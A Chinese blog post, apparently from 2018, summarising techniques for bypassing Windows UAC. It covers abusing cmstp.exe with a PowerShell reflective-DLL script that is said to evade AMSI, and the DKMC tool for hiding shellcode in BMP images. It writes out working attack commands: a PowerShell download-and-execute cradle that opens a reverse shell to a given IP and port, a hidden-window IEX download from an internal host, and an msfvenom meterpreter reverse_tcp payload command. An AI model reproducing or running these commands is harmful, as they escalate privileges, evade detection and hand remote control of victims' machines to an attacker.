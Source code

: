 ```yaml
---
layout:     post
title:      Bypass UAC的一些总结
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-326425.jpg
catalog: true
tags:
    - Bypass UAC
---
```


这几天看到的bypass 方法比较多，趁今天有空做个总结

一、利用microsoft的 “cmstp.exe”作为绕过UAC

其主要原理采用c#生成带有dll反射的的powershell脚本，amsi检测不到

关于amsi的文章参考：

https://xz.aliyun.com/t/3095

这里的文件编译号生成为dll文件

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehrf4diqj211z09oq5i.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvgal9qj20z10eejt9.jpg)

执行即可弹出administrator的命令行

另附自动化脚本放在附件里

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvqrnfsj211y0kb43g.jpg)

这里看到与表哥复现

通过远程iex下载我们的执行命令脚本

生成一个一个直接执行命令的exe

①powershell iex (New-Object Net.WebClient).DownloadString('http://InvokePowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.] 

②powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.211.179:80/a'))" 

但是如何修改代码生成可执行命令的exe和脚本，还没弄懂  有时间大佬可以研究研究

二、DKMC

使用方法：

(gen) Generate a malicious BMP image //创建一张恶意BMP格式的图片 

(web) Start a web server and deliver malicious image //启动web服务（内置）并传送恶意图片 

(ps) Generate Powershell payload //创建Powershell 有效载荷 

(sc) Generate shellcode from raw file //从原始文件生成shellcode 

(exit) Quit the application //退出

生成shellcode
kali ip： 192.168.0.107
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=9999 -f raw  > /opt/shellcode
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvz10mtj20iv0jv40n.jpg)
DKMC生成shellcode
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehw5aawkj20j00jp76v.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwb3qxvj20jc0kfacq.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwg1wxij20iw05i74x.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwk95jjj20jc0kfn01.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwohiwyj20jc0kfq6b.jpg)
这个之前尝试是可以弹shell的，今天不知道为啥不行.....我改天再试试看，原理就是把shellcode放入bmp文件中	